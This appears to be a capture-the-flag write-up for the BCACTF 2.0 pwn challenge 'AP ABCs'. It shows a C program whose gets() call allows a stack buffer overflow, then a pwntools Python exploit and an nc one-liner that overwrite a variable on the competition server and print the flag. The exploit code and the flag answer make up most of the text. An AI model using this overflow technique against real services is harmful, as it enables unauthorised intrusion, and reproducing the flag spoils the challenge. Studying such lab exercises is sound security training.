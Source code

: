 ![Challenge](https://github.com/ZeroCooL-555/CTF/blob/master/BCACTF%202.0/pwn/AP%20ABCs/challenge.png)

# Vulnerability discovery

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

char *correct = "abcdefghijklmnopqrstuvwxyz";

int main() {
    int score = 1;
    char response[50];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
    /*....useless puts and printfs*/
    gets(response); // Buffer-overflow Here
```

**Line 66** Contains a dangerous function `gets()` which can lead
to a buffer overflow

# Exploitation

```python
#!/usr/bin/env python3

from pwn import *


r = remote('bin.bcactf.com', 49154)
log.info('Sending Payload')
try:
    payload = [b"\x90"*76, p32(0x73434241)]
    r.sendlineafter('Answer for 1: ', b"".join(payload))
    log.success('Payload Sent')
except:
    log.warning('Failed to send payload...Try again')

log.progress('Reading out college board policies')

while True:
    try:
        flag = r.recvline()
        if b"bcactf{" in flag:
            flag = flag[20::]
            log.success(flag.decode())
            break
    except:
        log.warning('No flag found...Try again')
        break

# FLAG: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
# python3 -c "import struct;print(b'A'*74 + struct.pack('<I', 0x73434241))" | nc bin.bcactf.com 49154
```


**FLAG: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}**
